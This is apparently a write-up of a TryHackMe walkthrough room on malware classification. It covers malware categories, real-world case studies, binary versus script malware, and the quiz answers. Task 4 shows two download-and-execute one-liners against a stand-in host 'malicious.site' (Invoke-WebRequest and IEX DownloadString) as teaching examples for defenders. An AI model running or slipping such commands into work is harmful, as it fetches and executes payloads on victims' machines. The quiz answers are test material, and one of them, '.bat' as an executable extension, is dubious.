





# Malware Classification

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Walkthrough
Difficulty: Easy
Tags: -
Subscription type: Free
Description:
Learn how to identify, classify, and understand common types of malware.
```

Room link: [https://tryhackme.com/room/malwareclassification](https://tryhackme.com/room/malwareclassification)

## Solution

### Task 1 - Introduction

Malware refers to software or code created to damage systems, steal information, or allow unauthorised access. It appears in many forms, each with different tactics and goals. Malware can affect businesses in many ways, from financial loss and stolen data to disrupted services and reputational damage. Knowing how malware works is one of the first steps in defending against it.

SOC analysts are responsible for spotting and responding to suspicious activity. They review security alerts and decide what action to take based on the type of threat involved. Classifying malware correctly helps determine the correct response, such as isolating infected machines or investigating data theft. This room introduces the most common malware categories, explains how to tell them apart, and includes real-world examples to support learning.

We'll cover key categories of malware, real-world examples, and the differences between binary and script-based threats.

#### Learning Objectives

- Learn to classify common malware types based on their behaviour and purpose.
- Understand how real-world malware operates.
- Identify differences between executable and script-based malware.
- Practise classifying malware types.

#### Prerequisites

- [MAL: Malware Introductory](https://tryhackme.com/room/malmalintroductory)
- [Intro to Malware Analysis](https://tryhackme.com/room/intromalwareanalysis)

---------------------------------------------------------------------------------------

### Task 2 - Malware Types

Knowing the main types of malware and how they behave helps analysts spot threats quickly. Malware is not just a single thing; it comes in different categories, each with a specific purpose and attack method. By learning to identify these, teams can better respond to incidents and keep their environments safer.

#### Malware Categories

Below is a table summarising the most common malware categories, their main purpose, typical behaviour, and a real-world example for each. Some practical, scenario-based examples follow this to show how these types of malware appear in everyday incidents.

|Category|Main Purpose|Typical Behaviour|Real-World Example|
|----|----|----|----|
|Adware|Display unwanted advertisements|Display unwanted advertisements|[Fireball](https://en.wikipedia.org/wiki/Fireball_(software))|
|Spyware|Collect information secretly|Tracks browsing, records keystrokes, captures data|[Hermit](https://www.lookout.com/threat-intelligence/article/hermit-spyware-discovery)|
|Ransomware|Extort money by locking files or systems|Encrypts data, displays ransom note|[WannaCry](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack)|
|Wiper|Destroy data or systems|Overwrites or deletes files permanently|[PathWiper](https://malpedia.caad.fkie.fraunhofer.de/details/win.pathwiper)|
|C2 (Command & Control)|Enable remote control by an attacker|Connects to remote server, receives commands|[Emotet](https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-280a)|
|Data stealer|Steal sensitive information|Exfiltrates files, credentials, or documents|[Lumma Stealer](https://www.eset.com/blog/en/business-topics/threat-landscape/lumma-stealer-threat/)|
|Keylogger|Record user keystrokes|Captures everything typed on keyboard|[Zeus](https://www.crowdstrike.com/en-us/cybersecurity-101/malware/zeus-malware/)|
|Cryptominer|Use resources to mine cryptocurrency|High CPU usage, slows systems, network traffic|[Coinhive](https://www.checkpoint.com/es/press-releases/february-2019s-most-wanted-malware-coinhive-quits-while-still-at-the-top/)|

#### Scenario-Based Examples

Below are some simple scenarios that show how this type of malware might appear within an organisation.

- **Adware**: A user’s browser starts showing pop-up ads every few minutes, even when no websites are open. Security tools identify a suspicious program running in the background, which turns out to be adware.

- **Spyware**: An employee notices their personal emails have been accessed by someone else. Forensics show a spyware program on the workstation, which was recording keystrokes and sending the information to an attacker.

- **Ransomware**: Several computers display a ransom note, saying that all files have been encrypted and payment is required to unlock them. The SOC traces the incident to a ransomware attack triggered by a malicious email attachment.

- **Wiper**: An organisation’s servers suddenly crash, and files are overwritten with random data. Investigation reveals wiper malware designed to destroy data rather than demand a ransom.

- **Command and Control (C2) malware**: An endpoint is found reaching out to unfamiliar domains at odd hours. Analysts discover C2 malware that gives attackers remote access, allowing them to run commands or move files.

- **Data stealer**: Sensitive documents start leaking online. The incident response team finds a data stealer malware that collected files from user directories and sent them to an external server.

- **Keylogger**: Users report unauthorised transfers from company bank accounts. Analysis shows a keylogger running on the accountant’s computer, recording every keystroke, including passwords.

- **Cryptominer**: Several desktops become slow and fans are running constantly. Monitoring tools reveal high CPU usage linked to a cryptominer that hijacks the computers to mine cryptocurrency.

---------------------------------------------------------------------------------------

#### An employee reports that their system is slow, and monitoring shows constant high CPU usage. What type of malware is most likely responsible?

Answer: `Cryptominer`

#### Users suddenly lose access to their files, and a message appears demanding cryptocurrency in exchange for unlocking the data. Which malware fits this situation?

Answer: `Ransomware`

#### A user’s browser opens pop-up windows even when no site is loaded. No data appears to be stolen or encrypted. What kind of malware is this most likely?

Answer: `Adware`

#### Sensitive internal documents are found posted online. Analysis shows the data came from a workstation that had a malicious program. Which malware type does this represent?

Answer: `Data stealer`

### Task 3 - Real-World Malware Examples

Malware is not just a concept found in textbooks. Security teams deal with malware categories like **spyware**, **ransomware**, **wipers**, data **stealers**, **keyloggers**, and **remote access trojans** (RATs) in real incidents. Seeing how each type appears in actual attacks helps contextualise the theory and make the patterns easier to remember. We often refer to malware that relates to or is similar to each other as part of the same malware family.

A malware family refers to a group of malicious programs that share the same origin or codebase and behave similarly. Grouping malware like this helps security teams apply known defences and improve detection and response. Below are short case studies for known malware and links to learn more.

#### Spyware

Case Study, [Pegasus](https://www.group-ib.com/blog/pegasus-spyware/):

**Pegasus** is one of the most well-known spyware tools, used to target mobile phones worldwide. Attackers send a specially crafted message or exploit a vulnerability to install Pegasus silently. Once on a device, it collects text messages, location data, emails, and microphone or camera recordings. Victims range from journalists and politicians to business leaders.

**MITRE ATT&CK**: TA0009 (Collection), TA0010 (Exfiltration)

#### Ransomware

Case Study, [Akira](http://trellix.com/blogs/research/akira-ransomware/):

**Akira** is a modern ransomware variant known for targeting businesses, schools, and public services. Attackers use phishing emails, stolen credentials, or remote access software to breach networks. Once inside, Akira spreads, encrypts key files, and displays a ransom note demanding cryptocurrency. This group is known for threatening to leak stolen data if the ransom is not paid.

**MITRE ATT&CK**: TA0040 (Impact), TA0011 (Command and Control)



For example, we can observe the ransom note that the Akira ransomware leaves once a host is compromised.

#### Wiper

Case Study, [Shamoon](https://malwareindepth.com/shamoon-2012/):

**Shamoon** targeted energy companies in the Middle East, most famously Saudi Aramco. The malware rapidly overwrote files with useless data, making systems unusable. Entire networks went offline, and recovery took weeks. Shamoon showed that wipers can cause as much damage as ransomware, but without demanding payment.

**MITRE ATT&CK**: TA0040 (Impact)

#### Data Stealer

Case Study, [Agent Tesla](https://community.netwitness.com/s/article/AgentTesla-TheInformationStealer):

**Agent Tesla** is commonly delivered by phishing emails with attachments. Once opened, it captures keystrokes, screenshots, and credentials from web browsers and email clients. The stolen data is sent to command-and-control servers controlled by the attacker. Agent Tesla has been used in thousands of global attacks and continues to evolve.

**MITRE ATT&CK**: TA0010 (Exfiltration)



Above, we can observe an example from a forum where a threat actor has leaked data.

#### Keylogger

Case Study, [RedLine Stealer](https://www.splunk.com/en_us/blog/security/do-not-cross-the-redline-stealer-detections-and-analysis.html):

**RedLine Stealer** acts as both a data stealer and a keylogger. It spreads through phishing or malicious websites, then captures keystrokes, browser cookies, and cryptocurrency wallet information. The data is then exfiltrated to the attacker’s server. RedLine is commonly used by cybercriminals for credential theft and fraud.

**MITRE ATT&CK**: TA0006 (Credential Access) TA0010 (Exfiltration)

#### C2 RAT Malware

Case Study, [QakBot](https://www.zscaler.com/blogs/security-research/hibernating-qakbot-comprehensive-study-and-depth-campaign-analysis):

**QakBot**, also known as **QBot**, has become one of the most active and dangerous malware families targeting organisations globally. Originally designed as a banking trojan, QakBot has evolved into a modular RAT used by cybercriminal groups for initial access, credential theft, and as a loader for ransomware like Black Basta. QakBot typically arrives through phishing emails with malicious attachments or links. Once inside a network, it establishes a connection to its command-and-control servers, enabling attackers to move laterally, steal data, or deploy additional malware. In 2023, QakBot was responsible for several high-profile incidents, and law enforcement agencies have issued warnings about its continued activity.

**MITRE ATT&CK**: TA0011 (Command and Control), TA0002 (Execution), TA0006 (Credential Access)

---------------------------------------------------------------------------------------

#### A phishing campaign delivers malware that logs keystrokes, collects screenshots, and sends browser credentials to an external server. Which malware family does it most likely belong to?

Answer: `Agent Tesla`

#### An attacker sends a zero-click exploit that silently installs spyware to monitor calls, messages, and device location on a mobile phone. What known malware can be?

Answer: `Pegasus`

#### Which ransomware family is known for stealing data and threatening to leak it if payment is not made?

Answer: `Akira`

#### Which malware targeted energy companies by overwriting files with junk data?

Answer: `Shamoon`

### Task 4 - Binary vs Script Malware

Malware can arrive in different forms. Two of the most common categories are binary malware (compiled executables) and script-based malware (written in scripting languages). Understanding the difference helps SOC analysts make better decisions when reviewing alerts or suspicious files.

While script-based malware has become popular for its flexibility and ease of modification, executables remain widely used by attackers. They can offer more stability, support complex payloads, and are still effective in environments where security tools are misconfigured or outdated. Both types continue to be seen in real-world intrusions.

#### Binary Malware

Executable-based malware is typically delivered as compiled files such as **.exe** (**Windows Executable**) or **.dll** (**Dynamic Link Library**). These files are created from source code and need to be run on a compatible operating system. Common delivery methods for binaries include email attachments (for example, **invoice.pdf.exe**), malicious downloads, removable media, or as part of another infection. Sometimes, attackers disguise executables by using misleading icons or hiding the real file extension. A way to identify an executable is through a **checksum**, since executables, once compiled and redistributed, do not change. For example, we can calculate the **md5sum** of a file and identify the malware regardless of any name or extension change. Each binary may contain hardcoded strings or byte sequences that can serve as unique identifiers. These are commonly used by antivirus and detection engines.

#### Script-based Malware

Script-based malware relies on scripts written in languages such as **JavaScript** (.js), **Visual Basic Script** (.vbs), **Windows batch** (.bat), or **PowerShell** (.ps1). Scripts can be easier for attackers to change and adapt. They often arrive as email attachments, within Office documents containing macros, or through malicious websites. For example, a user might open an email attachment called **report.docm**, which contains a macro that runs a hidden PowerShell script. Scripts are also popular for initial access, allowing an attacker to run code directly in memory without writing files to disk.

There are some clear warning signs that a script may be acting maliciously:

- The script downloads or runs other files from the internet.
- It makes changes to system settings or disables security tools.
- It runs commands that are not usually part of standard operation, especially with encoded or obfuscated content.
- The script unexpectedly launches other applications, such as PowerShell or CMD.

For example, below we can find an example of an unobfuscated bat script-based malware:

```bat
@echo off
powershell -Command "Invoke-WebRequest http://malicious.site/payload.exe -OutFile C:\Users\Public\payload.exe" start C:\Users\Public\payload.exe
```

The script above downloads a malware executable and runs it on the victim’s machine. Similarly, we can find a similar example to this one in **PowerShell**:

```bat
powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')"
```

The above runs a script from a remote server, often without leaving files behind.

#### Script-based Example

Let's now observe an obfuscated real malware. In this case, this example corresponds to the **LummaStealer**, a popular stealer coded in **C** that is being used as a **MaaS** (malware as a service). This example is from **August 2025**, and it's a sample used to deliver the malware.

As we can observe, there's a lot of data if we scroll down. A function is declared `Swvldsp2195`, and then a huge variable full of data named `qble51`



Finally, we can observe that, in the end, this data is **base64 decrypted** and executed in memory using a **.NET** assembly (to execute in memory and not disk), as shown below.



While the above is an easy-to-follow example, more obfuscated script-based malware is very common, and there is a wide variety of these threats. This shows us how threat actors may try to deliver and obfuscate malware within an organisation.

---------------------------------------------------------------------------------------

#### What command-line tool is frequently used by script-based malware to download payloads?

Answer: `PowerShell`

#### Which file extension is commonly associated with malware and Windows executables, other than .exe?

Answer: `.bat`

#### Which malware type is more likely to leave identifiable byte patterns used by antivirus software?

Answer: `Binary`

### Task 5 - Practical

It’s time to put our knowledge to the test. As a SOC analyst, let’s review some alerts in your dashboard and apply what has been learned.

Click on the View Site button attached to this task to display the static site in split view. Review each alert, and select the correct malware classification to retrieve the flag.



Alternatively, if you can not see all the columns in split view, you can open the static site in full screen by clicking the link below:

**Access**: [Interactive Exercise](https://static-labs.tryhackme.cloud/apps/malware-classification/)

---------------------------------------------------------------------------------------

#### What is the flag?

Answer: `THM{<REDACTED>}`

### Task 6 -  Conclusion

Malware continues to be one of the most frequent threats defenders face, and understanding how to classify it helps improve detection and response. Throughout this room, different types of malware were introduced, including how they behave and appear in real-world incidents and how security teams can identify and categorise them. Users learned to distinguish between malware families such as spyware, ransomware, wipers, and keyloggers, and reviewed real case studies to help build intuition. The differences between binary and script-based malware were also covered, along with common delivery methods and indicators of compromise.

Key takeaways:

- Learn how to identify and classify common types of malware.
- Understand how malware behaves and spreads in real-world incidents.
- Distinguish between binary and script-based malware formats.
- Apply classification skills using alert analysis in a simulated SOC environment.

---------------------------------------------------------------------------------------

For additional information, please see the references below.

## References

- [Fireball (software) - Wikipedia](https://en.wikipedia.org/wiki/Fireball_(software))
- [Lumma Stealer - Wikipedia](https://en.wikipedia.org/wiki/Lumma_Stealer)
- [Malware - Wikipedia](https://en.wikipedia.org/wiki/Malware)
- [Pegasus (spyware) - Wikipedia](https://en.wikipedia.org/wiki/Pegasus_(spyware))
- [Spyware - Wikipedia](https://en.wikipedia.org/wiki/Spyware)
- [WannaCry ransomware attack - Wikipedia](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack)
- [Zeus (malware) - Wikipedia](https://en.wikipedia.org/wiki/Zeus_(malware))
